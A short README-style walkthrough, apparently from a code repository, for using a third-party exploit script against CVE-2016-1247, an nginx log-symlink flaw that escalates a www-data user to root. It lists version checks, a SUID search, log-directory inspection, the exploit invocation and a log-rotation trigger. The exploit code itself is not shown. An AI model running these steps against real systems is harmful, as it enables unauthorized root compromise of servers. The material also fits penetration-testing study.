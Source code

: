 # EXAMPLE

# Author of the exploit: https://legalhackers.com/

# REQUIREMENTS

### Having the correct permissions of your user.

#### 1) As www-data or similar user, if you see that the machine is vulnerable to CVE-2016-1247 nginxed-root.sh, we do:

#### 2) 

    dpkg -l | grep nginx (Anyhing newer than 1.6.2 is patched)

#### 3) SUID bit on sudo required for the vulnerability to work

    find / -type f -perm -u=s -lsa 2>/dev/null 

#### 4) If your user has enough permissions on the folder, you can replace the log files with a malicious script via symlink

    ls -la /var/log/nginx 

#### 5) 

    ./nginxed-root.sh /var/log/nginx/error.log

#### 6) Create another SSH session (Unless there is a cronjob that restarts the nginx server)

#### 7) 

    invoke-rc.d nginx rotate >/dev/null 2>&1
